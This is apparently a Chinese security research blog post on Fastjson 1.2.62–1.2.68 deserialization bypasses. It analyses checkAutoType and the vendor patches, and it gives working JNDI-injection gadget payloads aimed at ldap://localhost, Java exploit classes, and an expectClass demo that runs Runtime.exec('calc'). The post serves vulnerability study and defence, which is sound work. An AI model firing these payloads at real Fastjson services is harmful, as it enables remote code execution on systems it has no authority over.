---
title: "Java反序列化之Fastjson1.2.6x绕过"
date: 2026-02-28T13:37:02+08:00
summary: "Fastjson1.2.62-1.2.68补丁绕过"
url: "/posts/Java反序列化之Fastjson1-2-6x绕过/"
categories:
  - "javasec"
tags:
  - "javasec"
draft: false
---

# Fastjson<=1.2.62反序列化漏洞

其实也是基于黑名单之外的另一条新链的绕过手段

## 前提条件

- 需要开启AutoType；
- Fastjson <= 1.2.62；
- JNDI注入利用所受的JDK版本限制；
- 目标服务端需要存在xbean-reflect包；xbean-reflect 包的版本不限。

## 依赖

环境的pom.xml

```xml
<dependencies>

<dependency>  
 <groupId>com.alibaba</groupId>  
 <artifactId>fastjson</artifactId>  
 <version>1.2.62</version>  
</dependency>  
<dependency>  
 <groupId>org.apache.xbean</groupId>  
 <artifactId>xbean-reflect</artifactId>  
 <version>4.18</version>  
</dependency>  
<dependency>  
 <groupId>commons-collections</groupId>  
 <artifactId>commons-collections</artifactId>  
 <version>3.2.1</version>  
</dependency>
</dependencies>
```

## JndiConverter JNDI注入分析

org.apache.xbean.propertyeditor.JndiConverter类的toObjectImpl()函数存在JNDI注入漏洞，可由其构造函数处触发利用

看到JndiConverter#toObjectImpl方法

```java
    protected Object toObjectImpl(String text) {
        try {
            InitialContext context = new InitialContext();
            return (Context) context.lookup(text);
        } catch (NamingException e) {
            throw new PropertyEditorException(e);
        }
    }
```

很明显的一个JNDI注入点

但是这里的话并没有setter/getter方法，也并非构造函数，为什么呢触发呢？

关注到JndiConverter的构造函数

```java
    public JndiConverter() {
        super(Context.class);
    }
```

会调用到父类的构造函数，也就是AbstractConverter的构造函数

```java
    protected AbstractConverter(Class type) {
        this(type, true);
    }
    protected AbstractConverter(Class type, boolean trim) {
        super();
        if (type == null) throw new NullPointerException("type is null");
        this.type = type;
        this.trim = trim;
    }
```

那既然反序列化会调用到父类AbstractConverter，那么就会调用到其setter和getter方法，其中有一个setAsText方法

```java
    public final void setAsText(String text) {
        Object value = toObject((trim) ? text.trim() : text);
        super.setValue(value);
    }
```

跟进toObject就可以发现

```java
    public final Object toObject(String text) {
        if (text == null) {
            return null;
        }

        Object value = toObjectImpl((trim) ? text.trim() : text);
        return value;
    }
```

很明显这里调用到我们的漏洞点toObjectImpl方法

所以我们的POC可以写成这样

## POC&EXP

```java
{
    \"@type\":\"org.apache.xbean.propertyeditor.JndiConverter\",
    \"AsText\":\"ldap://127.0.0.1:1234/ExportObject\"
}
```

EXP

```java
package SerializeChains.FastjsonSer.Fastjson126x;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class JndiConverter_POC {
    /*
    * Fastjson<=1.2.62的黑名单绕过
    * POC:
    *
    * {
    *   \"@type\":\"org.apache.xbean.propertyeditor.JndiConverter\",
    *   \"AsText\":\"ldap://127.0.0.1:1389/EXP\"
    * }
    * */

    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String poc = "{\"@type\":\"org.apache.xbean.propertyeditor.JndiConverter\"," +
                "\"asText\":\"ldap://localhost:9999/EXP\"}";
        JSON.parse(poc);

    }
}
```

分别启动LDAP服务和EXP所在的web服务，注意这里EXP最好不要有任何包名，因为这个问题我调试了一个多小时



## fastjson代码分析

打上断点跟进com.alibaba.fastjson.parser.ParserConfig#checkAutoType()

相比于之前版本调试分析时看的CheckAutoType()函数，这里新增了一些代码逻辑，大致内容如注释：

```java
if (typeName == null) {
          return null;
      }
 
// 限制了JSON中@type指定的类名长度
      if (typeName.length() >= 192 || typeName.length() < 3) {
          throw new JSONException("autoType is not support. " + typeName);
      }
 
// 单独对expectClass参数进行判断，设置expectClassFlag的值
// 当且仅当expectClass参数不为空且不为Object、Serializable、...等类类型时expectClassFlag才为true
      final boolean expectClassFlag;
      if (expectClass == null) {
          expectClassFlag = false;
      } else {
          if (expectClass == Object.class
                  || expectClass == Serializable.class
                  || expectClass == Cloneable.class
                  || expectClass == Closeable.class
                  || expectClass == EventListener.class
                  || expectClass == Iterable.class
                  || expectClass == Collection.class
                  ) {
              expectClassFlag = false;
          } else {
              expectClassFlag = true;
          }
      }
 
      String className = typeName.replace('$', '.');
      Class<?> clazz = null;
 
      final long BASIC = 0xcbf29ce484222325L;
      final long PRIME = 0x100000001b3L;
 
// 1.2.43检测，"["
      final long h1 = (BASIC ^ className.charAt(0)) * PRIME;
      if (h1 == 0xaf64164c86024f1aL) { // [
          throw new JSONException("autoType is not support. " + typeName);
      }
 
// 1.2.41检测，"Lxx;"
      if ((h1 ^ className.charAt(className.length() - 1)) * PRIME == 0x9198507b5af98f0L) {
          throw new JSONException("autoType is not support. " + typeName);
      }
 
// 1.2.42检测，"LL"
      final long h3 = (((((BASIC ^ className.charAt(0))
              * PRIME)
              ^ className.charAt(1))
              * PRIME)
              ^ className.charAt(2))
              * PRIME;
 
// 对类名进行Hash计算并查找该值是否在INTERNAL_WHITELIST_HASHCODES即内部白名单中，若在则internalWhite为true
      boolean internalWhite = Arrays.binarySearch(INTERNAL_WHITELIST_HASHCODES,
              TypeUtils.fnv1a_64(className)
      ) >= 0;
```

当未开启AutoType时



可以看到此时我们的JndiConverter是没在白名单中的，但由于未开启AutoType，所以无法进入这个逻辑

并且后续加载class的代码都并没有加载成功，来到未开启AutoType的逻辑

```java
        if (!autoTypeSupport) {
            long hash = h3;
            for (int i = 3; i < className.length(); ++i) {
                char c = className.charAt(i);
                hash ^= c;
                hash *= PRIME;

                if (Arrays.binarySearch(denyHashCodes, hash) >= 0) {
                    throw new JSONException("autoType is not support. " + typeName);
                }

                // white list
                if (Arrays.binarySearch(acceptHashCodes, hash) >= 0) {
                    if (clazz == null) {
                        clazz = TypeUtils.loadClass(typeName, defaultClassLoader, true);
                    }

                    if (expectClass != null && expectClass.isAssignableFrom(clazz)) {
                        throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                    }

                    return clazz;
                }
            }
        }
```

先进行一轮黑名单的检测和白名单的匹配，这里我们的类不在黑名单中，所以正常步过

```java
        boolean jsonType = false;
        InputStream is = null;
        try {
            String resource = typeName.replace('.', '/') + ".class";
            if (defaultClassLoader != null) {
                is = defaultClassLoader.getResourceAsStream(resource);
            } else {
                is = ParserConfig.class.getClassLoader().getResourceAsStream(resource);
            }
            if (is != null) {
                ClassReader classReader = new ClassReader(is, true);
                TypeCollector visitor = new TypeCollector("<clinit>", new Class[0]);
                classReader.accept(visitor);
                jsonType = visitor.hasJsonType();
            }
        } catch (Exception e) {
            // skip
        } finally {
            IOUtils.close(is);
        }
```

使用ParserConfig自身的类加载器去尝试读取目标类的class文件字节码，这里用的是ASM库去读取字节码，随后尝试获取JsonType注解信息，但是这里并不会获取到，所以是false

继续接下来的逻辑

```java
        // 设置autoTypeSupport开关
		final int mask = Feature.SupportAutoType.mask;
        boolean autoTypeSupport = this.autoTypeSupport
                || (features & mask) != 0
                || (JSON.DEFAULT_PARSER_FEATURE & mask) != 0;

        // 若到这一步，clazz还是null的话，就会对其是否开启AutoType、是否注解JsonType、是否设置expectClass来进行判断
        // 如果判断通过，就会判断是否开启AutoType或是否注解JsonType，是的话就会在加载clazz后将其缓存到Mappings中，这正是1.2.47的利用点
        // 也就是说，只要开启了AutoType或者注解了JsonType的话，在这段代码逻辑中就会把clazz缓存到Mappings中
        if (clazz == null && (autoTypeSupport || jsonType || expectClassFlag)) {
            boolean cacheClass = autoTypeSupport || jsonType;
            clazz = TypeUtils.loadClass(typeName, defaultClassLoader, cacheClass);
        }

        // 如果从前面加载得到了clazz
        if (clazz != null) {
            // 如果注解了JsonType，直接返回clazz
            if (jsonType) {
                TypeUtils.addMapping(typeName, clazz);
                return clazz;
            }

            // 判断clazz是否为ClassLoader、DataSource、RowSet等类的子类，是的话直接抛出异常
            if (ClassLoader.class.isAssignableFrom(clazz) // classloader is danger
                    || javax.sql.DataSource.class.isAssignableFrom(clazz) // dataSource can load jdbc driver
                    || javax.sql.RowSet.class.isAssignableFrom(clazz) //
                    ) {
                throw new JSONException("autoType is not support. " + typeName);
            }

            // 如果是expectClass不为空且clazz是其子类，则直接返回，否则抛出异常
            if (expectClass != null) {
                if (expectClass.isAssignableFrom(clazz)) {
                    TypeUtils.addMapping(typeName, clazz);
                    return clazz;
                } else {
                    throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                }
            }

            // build JavaBeanInfo后，对其creatorConstructor进行判断，如果该值不为null且开启AutoType则抛出异常
            JavaBeanInfo beanInfo = JavaBeanInfo.build(clazz, clazz, propertyNamingStrategy);
            if (beanInfo.creatorConstructor != null && autoTypeSupport) {
                throw new JSONException("autoType is not support. " + typeName);
            }
        }
```

再往下clazz为null且AutoType为false就直接抛出异常找不到指定类



当开启AutoType时



前面没有获取到类，并且开启了AutoType，通过AppClassLoader类加载器成功加载恶意类。且由于前面开启AutoType的缘故、cacheClass为true进而开启了cache缓存，最后返回加载的类

## 补丁分析

这种黑名单绕过最常用的修复方法就是加黑名单了

参考官方的代码对比：https://github.com/alibaba/fastjson/compare/1.2.62%E2%80%A61.2.66#diff-f140f6d9ec704eccb9f4068af9d536981a644f7d2a6e06a1c50ab5ee078ef6b4

换成1.2.66后会继续抛出报错



跟进checkAutoType的1274行看看



黑名单匹配，果然

# Fastjson<=1.2.66反序列化漏洞

这里的话依旧是新Gadgets绕过黑名单并且方法有好几个，但其实都是依靠外部依赖去打的，并且原理都是存在JDNI注入漏洞。

## 前提条件

- 开启AutoType；
- Fastjson <= 1.2.66；
- JNDI注入利用所受的JDK版本限制；
- org.apache.shiro.jndi.JndiObjectFactory类需要shiro-core包；
- br.com.anteros.dbcp.AnterosDBCPConfig 类需要 Anteros-Core和 Anteros-DBCP 包；
- com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig类需要ibatis-sqlmap和jta包；

## POC&EXP

**org.apache.shiro.realm.jndi.JndiRealmFactory类PoC（需要shiro-core包）**：

依赖

```xml
    <dependency>
      <groupId>org.apache.shiro</groupId>
      <artifactId>shiro-core</artifactId>
      <version>1.2.4</version>
    </dependency>
```

poc

```json
{"@type":"org.apache.shiro.realm.jndi.JndiRealmFactory", "jndiNames":["ldap://localhost:9999/EXP"], "Realms":[""]}
```


**br.com.anteros.dbcp.AnterosDBCPConfig类PoC（需要 Anteros-Core和 Anteros-DBCP 包）**：

依赖

```xml
<!-- Anteros-Core -->
<dependency>
    <groupId>br.com.anteros</groupId>
    <artifactId>Anteros-Core</artifactId>
    <version>1.2.1</version>
</dependency>

<!-- Anteros-DBCP -->
<dependency>
    <groupId>br.com.anteros</groupId>
    <artifactId>Anteros-DBCP</artifactId>
    <version>1.0.1</version>
</dependency>
```

poc

```json
{\"@type\":\"br.com.anteros.dbcp.AnterosDBCPConfig\",\"metricRegistry\":\"ldap://localhost:9999/EXP\"}
或
{\"@type\":\"br.com.anteros.dbcp.AnterosDBCPConfig\",\"healthCheckRegistry\":\"ldap://localhost:9999/EXP\"}
```


**com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig类PoC（需要ibatis-sqlmap和jta包）**：

依赖

```xml
<!-- iBatis SQL Maps -->
<dependency>
    <groupId>org.apache.ibatis</groupId>
    <artifactId>ibatis-sqlmap</artifactId>
    <version>2.3.4.726</version>
</dependency>

<!-- JTA (Java Transaction API) -->
<dependency>
    <groupId>javax.transaction</groupId>
    <artifactId>jta</artifactId>
    <version>1.1</version>
</dependency>
```

poc

```json
{\"@type\":\"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig\"," +
                "\"properties\": {\"@type\":\"java.util.Properties\",\"UserTransaction\":\"ldap://localhost:9999/EXP\"}}
```



EXP

```java
package SerializeChains.FastjsonSer.Fastjson126x;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class EXP_1266 {
    /*
     * Fastjson<=1.2.66的黑名单绕过
     * */
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String poc = "{\"@type\":\"org.apache.shiro.realm.jndi.JndiRealmFactory\", \"jndiNames\":[\"ldap://localhost:9999/EXP\"], \"Realms\":[\"\"]}";
//        String poc = "{\"@type\":\"br.com.anteros.dbcp.AnterosDBCPConfig\",\"metricRegistry\":\"ldap://localhost:9999/EXP\"}";
//        String poc = "{\"@type\":\"br.com.anteros.dbcp.AnterosDBCPConfig\",\"healthCheckRegistry\":\"ldap://localhost:9999/EXP\"}";
//        String poc = "{\"@type\":\"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig\"," +
//                "\"properties\": {\"@type\":\"java.util.Properties\",\"UserTransaction\":\"ldap://localhost:9999/EXP\"}}";
        JSON.parse(poc);
    }
}
```

这几个Gadget的触发原理其实也很简单，跟进去看看就晓得了，具体的后面想写了再回来写吧

# Fastjson<=1.2.67反序列化漏洞

依旧是黑名单绕过的新Gadget

## 前提条件

- 开启AutoType；
- Fastjson <= 1.2.67；
- JNDI注入利用所受的JDK版本限制；
- org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup类需要ignite-core、ignite-jta和jta依赖；
- org.apache.shiro.jndi.JndiObjectFactory类需要shiro-core和slf4j-api依赖；

## POC&EXP

org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup类PoC：

依赖

```xml
<!-- Ignite Core -->
<dependency>
    <groupId>org.apache.ignite</groupId>
    <artifactId>ignite-core</artifactId>
    <version>2.16.0</version>
</dependency>

<!-- Ignite JTA -->
<dependency>
    <groupId>org.apache.ignite</groupId>
    <artifactId>ignite-jta</artifactId>
    <version>2.16.0</version>
</dependency>

<!-- JTA -->
<dependency>
    <groupId>javax.transaction</groupId>
    <artifactId>jta</artifactId>
    <version>1.1</version>
</dependency>
```

POC

```json
{"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup", "jndiNames":["ldap://localhost:1389/Exploit"], "tm": {"$ref":"$.tm"}}
```



org.apache.shiro.jndi.JndiObjectFactory类PoC：

依赖

```xml
    <dependency>
      <groupId>org.apache.shiro</groupId>
      <artifactId>shiro-core</artifactId>
      <version>1.2.4</version>
    </dependency>
```

POC

```json
{"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://localhost:1389/Exploit","instance":{"$ref":"$.instance"}}
```



这两条链子后面想写再写吧

# Fastjson<=1.2.68反序列化漏洞

## #expectClass绕过AutoType

## 前提条件

- Fastjson <= 1.2.68；
- 利用类必须是expectClass类的子类或实现类，并且不在黑名单中；

## 补丁修复

先看看1.2.69的补丁修复是什么样的

https://github.com/alibaba/fastjson/compare/1.2.68%E2%80%A61.2.69#diff-f140f6d9ec704eccb9f4068af9d536981a644f7d2a6e06a1c50ab5ee078ef6b4



删掉了黑名单但是增加了对类名进行了Hash处理再比较哈希黑名单，对比后发现新增了三个类

- java.lang.Runnable
- java.lang.Readable
- java.lang.AutoCloseable

那后面大概率就是围绕这三个类来绕过的了

## 关于safeMode

fastjson1.2.68版本开始，fastjson增加了safeMode的支持，配置safeMode后，无论白名单和黑名单，都不支持autoType

参考官方文档：https://github.com/alibaba/fastjson/wiki/fastjson_safemode

在代码中配置safeMode的方法：

```java
ParserConfig.getGlobalInstance().setSafeMode(true); 
```

开启之后，就完全禁用AutoType即`@type`了，这样就能防御住Fastjson反序列化漏洞了？

safeMode的具体处理逻辑，是放在`checkAutoType()`函数中的前面进行验证，如果开启了safeMode就会抛出异常终止执行



## 漏洞原理

这次绕过checkAutoType的方法主要是checkAutoType的第二个参数expectClass。可以通过构造恶意JSON数据，传入某个类作为expectClass参数再传入另一个expectClass类的子类或实现类来实现绕过`checkAutoType()`函数执行恶意操作。

具体步骤是：

1. 先传入某个类，其加载成功后将作为expectClass参数传入`checkAutoType()`函数；
2. 查找expectClass类的子类或实现类，如果存在这样一个子类或实现类其构造方法或`setter/getter`方法中存在危险操作则可以被攻击利用。

## 写个demo

简单地验证利用expectClass绕过的可行性，先假设Fastjson服务端存在如下实现AutoCloseable接口类的恶意类VulAutoCloseable

```java
package SerializeChains.FastjsonSer.Fastjson126x;

public class VulAutoCloseable implements AutoCloseable  {
    public VulAutoCloseable(String cmd) {
        try {
            Runtime.getRuntime().exec(cmd);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    @Override
    public void close() throws Exception {

    }
}
```

然后传入POC

```java
package SerializeChains.FastjsonSer.Fastjson126x;

import com.alibaba.fastjson.JSON;

public class EXP_1268 {
    public static void main(String[] args) {
        String poc = "{\"@type\":\"java.lang.AutoCloseable\"," +
                "\"@type\":\"SerializeChains.FastjsonSer.Fastjson126x.VulAutoCloseable\"," +
                "\"cmd\":\"calc\"}";
        JSON.parse(poc);
    }
}

```



无需开启AutoType，直接成功绕过`CheckAutoType()`的检测从而触发执行

## 代码分析

打个断点调试一下



一直来到getClassFromMapping函数，从Mapping缓存中获取到`AutoCloseable` 类，然后进行一系列的判断，在第四个if语句中进入



判断expectClass是否不为空，以及 `clazz` 是否不是 `expectClass` 类的继承类且不是 `HashMap` 类型，满足话抛出异常，否则直接返回该类。

